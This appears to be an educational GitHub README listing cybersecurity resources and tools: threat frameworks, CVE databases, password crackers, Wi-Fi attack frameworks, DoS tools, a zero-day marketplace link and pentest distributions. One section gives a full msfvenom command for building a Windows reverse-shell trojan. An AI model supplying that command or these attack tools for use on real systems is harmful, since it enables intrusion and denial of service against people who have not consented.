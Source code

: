 # Introduction to Cyber Security

"Introduction to Cyber Security" базови познания в сферата на киберсигурността. 

---------------------------------------------------------------

## Frameworks for Recording Threat Actions

- [ATT&CK Matrix for Enterprise](https://attack.mitre.org/) - MITRE ATT&CK® is a globally accessible knowledge base of adversary tactics and techniques based on real-world observations. The ATT&CK knowledge base is used as a foundation for developing specific threat models and methodologies in the private sector, government, and cybersecurity product and service community.

---------------------------------------------------------------

## IDS / IPS (Intrusion Detection System / Intrusion Prevention System)

- [Snort](https://www.snort.org/) - Snort is an Open Source Intrusion Prevention System (IPS). Snort IPS uses a series of rules that help define malicious network activity, which is used to find packets that match against them and generate alerts for users. Snort can be deployed to stop these packets, as well. Snort has three primary uses: As a packet sniffer like tcpdump and as a packet logger, which is helpful for network traffic debugging and can be used as a full-blown network intrusion prevention system.
- [Live Cyber Threat Map](https://threatmap.checkpoint.com/) - a real-time map of the computer security attacks occurring at any given time.

---------------------------------------------------------------

## Vulnerabilities `CVE-YEAR OF DISCOVERY-ID`

- [CVE Org](https://www.cve.org/) - Identify, define, and catalog publicly disclosed cybersecurity vulnerabilities
- [ExploitDB](https://www.exploit-db.com/) - Search for Vulnerabilities
- [National Vulnerability Database](https://nvd.nist.gov/) - U.S. government repository of standards-based vulnerability management data represented using the Security Content Automation Protocol (SCAP). This data enables automation of vulnerability management, security measurement, and compliance. The NVD includes databases of security checklist references, security-related software flaws, product names, and impact metrics.
- [CVE Details](https://www.cvedetails.com/) - a complete CVE database enhanced with additional information, including advisories, exploits, tools, source code changes, etc.
- [Publicly Available Penetration Testing Reports](https://github.com/juliocesarfort/public-pentesting-reports) - A repository containing public penetration test reports published by consulting firms and academic security groups.

---------------------------------------------------------------

## Hacking Tools 
- [Responder](https://github.com/SpiderLabs/Responder) - Responder is an open-source tool primarily used for NetBIOS and LLMNR poisoning attacks. NetBIOS (Network Basic Input/Output System) and LLMNR (Link-Local Multicast Name Resolution) facilitate communication between devices on a local network.
- [John the Ripper](https://github.com/openwall/john) - John the Ripper is a fast password cracker, currently available for many flavors of Unix, macOS, Windows, DOS, BeOS, and OpenVMS (the latter requires a contributed patch). Its primary purpose is to detect weak Unix passwords. Besides several crypt(3) password hash types most commonly found on various Unix flavors, supported out of the box are Kerberos/AFS and Windows LM hashes, as well as DES-based tripcodes, plus hundreds of additional hashes and ciphers in "-jumbo" versions.
- [Zero Days Marketplace](https://0day.today/) - Zero Day Vulnerabilities. Zero Day means that they are brand new, and there
is not a fix or patch for them.
- [The Social-Engineer Toolkit (SET)](https://github.com/trustedsec/social-engineer-toolkit) - The Social-Engineer Toolkit is an open-source penetration testing framework designed for social engineering. SET has several custom attack vectors that allow you to make a believable attack quickly. SET is a product of TrustedSec, LLC – an information security consulting firm located in Cleveland, Ohio.
- [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) - LinPEAS is a script that searches for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.

---------------------------------------------------------------

## Brute Forcing Attacks

- [Hydra](https://github.com/vanhauser-thc/thc-hydra) - Hydra (or THC Hydra) is a parallelized network login cracker built in various operating systems like Kali Linux
- [Burp Intruder](https://portswigger.net/burp/pro) - Burp Intruder is a tool for automating customized attacks against web applications.
- [Medusa](https://github.com/jmk-foofus/medusa) - Medusa is a speedy, parallel, and modular login brute-forcer. The goal is to support as many services that allow remote authentication as possible.

---------------------------------------------------------------


## Frameworks to Perform Wi-Fi Attacks

- [Airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon) - This is a multi-use bash script for Linux systems to audit wireless networks.
- [WiFiPhisher](https://github.com/wifiphisher/wifiphisher) - Wifiphisher is a rogue Access Point framework for conducting red team engagements or Wi-Fi security testing. Using Wifiphisher, penetration testers can quickly achieve a man-in-the-middle position against wireless clients by performing targeted Wi-Fi association attacks.
- [WiFi Exploitation Framework](https://github.com/D3Ext/WEF) - This is an entirely offensive framework for auditing Wi-Fi networks with different types of attacks for WPA/WPA2, WPS, and WEP, automated handshake cracking, and much more.

---------------------------------------------------------------

## DoS Tools - Denial of Service (DOS)

- [Low Orbit Ion Cannon](https://github.com/NewEraCracker/LOIC) - Low Orbit Ion Cannon (LOIC) is an open-source network stress tool written in C# (TCP, UDP, HTTP GET FLOODS).
- [High Orbit Ion Cannon](https://sourceforge.net/projects/highorbitioncannon/) - HTTP GET / POST requests
- [hping3](https://www.kali.org/tools/hping3/) - hping3 is a network tool that sends custom ICMP/UDP/TCP packets and displays target replies like ping does with ICMP replies. It handles fragmentation and arbitrary packet body and size and can transfer files under supported protocols. Using hping3, you can test firewall rules, perform (spoofed) port scanning, test network performance using different protocols, do path MTU discovery, perform traceroute-like actions under different protocols, fingerprint remote operating systems, audit TCP/IP stacks, etc. hping3 is scriptable using the Tcl language.
- [Tors Hammer](https://github.com/Karlheinzniebuhr/torshammer) - As the name suggests, the tool can perform attacks inside the Tor network. By default, Tor's Hammer operates on level 7 of the OSI Model and attacks the whole TCP stack. The way it works is simple. The tool opens multiple dead connections and, thus, hangs the application since it cannot return results. However, instead of a crushing action like the literal Thor hammer, it is specialized for anonymous attacks. The tool is built in a way that uses anonymity as leverage to evade firewalls and security mitigations. Pen testers also use it for demo attacks on security structures. This tool has a downside. However, the primary network (Tor) is usually very slow. This speed limit automatically limits how effective these tools can be.

---------------------------------------------------------------

## Generate Trojan for Reverse Shell Callback

- [Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/msfvenom/) - Msfvenom enables you to generate custom payloads for specific targets. The tool was created by combining two previous Metasploit tools—msfencode and msfpayload. Msfvenom can help get past the security of a target protected by a firewall or an antivirus. `msfvenom –p windows/x64/shell/reverse_tcp LHOST=IP LPORT=PORT –f exe –o file.exe`

---------------------------------------------------------------

## Security Tools

- [OpenVPN](https://openvpn.net/) Virtual Private Network - Infrastructure that allows machines to connect in
a secure way
- [Tor Network](https://www.torproject.org/) This network is used for anonymity online
- [JWT Token](https://jwt.io/) JSON Web Token - Used for authorization in web apps. It relies on a secret to validate its signature. JWT token is instantiated upon a valid login
- [Hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) - Applied algorithm to "obfuscate" a secret

---------------------------------------------------------------

## Penetration Testing Tools

- [Nessus](https://www.tenable.com/products/nessus) - Nessus is vulnerability scanning solution
- [Nmap](https://nmap.org/) - Nmap ("Network Mapper") is a free and open-source utility for network discovery and security auditing. 
- [BurpSuite](https://portswigger.net/burp) - The class-leading vulnerability scanning, penetration testing, and web app security platform.
- [Searchsploit](https://www.exploit-db.com/searchsploit) - Searchsploit is a command line search tool for Exploit-DB that allows you to take a copy of Exploit Database anywhere you go.

---------------------------------------------------------------

## Penetration Testing Operational Systems

- [Kali Linux](https://www.kali.org/)
- [Parrot OS](https://www.parrotsec.org/)
- [Black Arch](https://blackarch.org/)
- [CommandoVM](https://github.com/mandiant/commando-vm)

---------------------------------------------------------------

## Example of interesting ports:

- 22 / SSH
- 80 / HTTP
- 443 / HTTPS
- 389 / LDAP

---------------------------------------------------------------

## Example of exciting commands:

- How to Check What Ports are Opened on Your PC
  - Windows:
    - `netstat –an`
    - `netstat –antb`
  - Linux:
    - `ss –nltp`
    - `netstat –tulpn`


